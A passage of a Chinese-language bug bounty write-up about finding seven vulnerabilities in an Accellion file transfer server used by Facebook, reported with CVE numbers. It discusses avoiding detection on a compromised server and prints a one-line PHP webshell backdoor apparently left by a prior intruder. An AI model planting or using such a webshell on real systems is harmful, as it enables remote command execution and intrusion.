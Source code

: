 經過簡單的原始碼審查後發現，好找的弱點應該都被 Rapid7 找走了 T^T  
而需要認證才能觸發的漏洞又不怎麼好用，只好認真點往深層一點的地方挖掘!  

經過幾天的認真挖掘，最後總共發現了七個弱點，其中包含了  

* Cross-Site Scripting x 3
* Pre-Auth SQL Injection leads to Remote Code Execution
* Known-Secret-Key leads to Remote Code Execution
* Local Privilege Escalation x 2

除了回報 Facebook 安全團隊外，其餘的弱點也製作成 Advisory 提交 Accellion 技術窗口，經過廠商修補提交 CERT/CC 後取得四個 CVE 編號

* CVE-2016-2350
* CVE-2016-2351
* CVE-2016-2352
* CVE-2016-2353

詳細的弱點細節會待 Full Disclosure Policy 後公布!

![shell on facebook](/images/news/20160421/2.jpg)
*↑ 使用 Pre-Auth SQL Injection 寫入 Webshell*

<br>


在實際滲透中進去伺服器後的第一件事情就是檢視當前的環境是否對自己友善，為了要讓自己可以在伺服器上待的久就要盡可能的了解伺服器上有何限制、紀錄，避開可能會被發現的風險 :P  

Facebook 大致有以下限制:  

 1. 防火牆無法連外, TCP, UDP, 53, 80, 443 皆無法
 2. 存在遠端的 Syslog 伺服器
 3. 開啟 Auditd 記錄

無法外連看起來有點麻煩，但是 ICMP Tunnel 看似是可行的，但這只是一個 Bug Bounty Program 其實不需要太麻煩就純粹以 Webshell 操作即可。  

----------

### 似乎有點奇怪?

正當收集證據準備回報 Facebook 安全團隊時，從網頁日誌中似乎看到一些奇怪的痕跡。  

首先是在 "**/var/opt/apache/php\_error\_log**" 中看到一些奇怪的 PHP 錯誤訊息，從錯誤訊息來看似乎像是邊改 Code 邊執行所產生的錯誤?  

![PHP error log](/images/news/20160421/3.jpg)
*↑ PHP error log*

<br>
跟隨錯誤訊息的路徑去看發現疑似前人留下的 Webshell 後門  

![Webshell on facebook server](/images/news/20160421/4.jpg)
*↑ Webshell on facebook server*

<br>

其中幾個檔案的內容如下

**sshpass**  
<pre><code>沒錯，就是那個 <a href='http://linux.die.net/man/1/sshpass'>sshpass</a></code></pre>
**bN3d10Aw.php**
{% highlight php %}
<?php echo shell_exec($_GET['c']); ?>
{% endhighlight %}
